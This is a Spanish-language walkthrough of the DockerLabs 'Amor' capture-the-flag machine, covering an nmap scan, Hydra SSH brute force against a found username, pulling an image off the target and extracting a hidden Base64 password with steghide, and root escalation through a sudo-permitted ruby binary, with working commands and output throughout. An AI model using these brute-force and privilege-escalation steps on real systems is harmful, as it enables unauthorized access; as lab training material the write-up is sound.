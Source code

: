 # Amor DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip amor.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh amor.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 12:33 EST
Nmap scan report for 172.17.0.2
Host is up (0.000029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

Si entramos en la pagina veremos el siguiente nombre en este apartado:

<figure><img src="../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos tendremos un nombre de usuario, vamos a probar a realizar fuerza bruta con `hydra`.

## Escalate user carlota

### Hydra

```shell
hydra -l carlota -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-17 12:36:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 25 final worker threads did not complete until end.
[ERROR] 25 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-17 12:36:22
```

Vemos que hemos obtenido unas credenciales, por lo que entraremos por `SSH`.

### SSH

```shell
ssh carlota@<IP>
```

Metemos como contraseña `babygirl` y veremos que estamos dentro.

## Escalate user oscar

Si nos vamos a la siguiente ruta:

```shell
cd /home/carlota/Desktop/fotos/vacaciones
```

Veremos un archivo llamado `imagen.jpg`, que podemos sospechar de que pueda tener algo en su interior, ya que no encontramos ningun vector de entrada mas, por lo que nos lo pasaremos a nuestro `host`.

```shell
python3 -m http.server
```

Y ahora en nuestro `host` ejecutaremos lo siguiente:

```shell
wget http://<IP>:8000/imagen.jpg
```

Ahora veremos que tiene algo dentro con el siguiente comando:

```shell
steghide extract -sf imagen.jpg
```

Info:

```
Enter passphrase: 
wrote extracted data to "secret.txt".
```

Vemos que nos extrae un archivo llamado `secret.txt` y si lo leemos veremos lo siguiente:

```
ZXNsYWNhc2FkZXBpbnlwb24=
```

Por lo que vemos esta en `Base64`, y si lo decodificamos quedara de esta forma:

```shell
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```

Info:

```
eslacasadepinypon
```

Por lo que vemos puede ser la contraseña de algun usuario del sistema, por lo que vamos a probar con el siguiente usuario.

```shell
su oscar
```

Metemos como contraseña `eslacasadepinypon` y veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for oscar on caa1dc877f39:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on caa1dc877f39:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Vemos que podemos ejecutar el binario `ruby` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo ruby -e 'exec "/bin/bash"'
```

Info:

```
root@caa1dc877f39:/home/carlota/Desktop/fotos/vacaciones# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
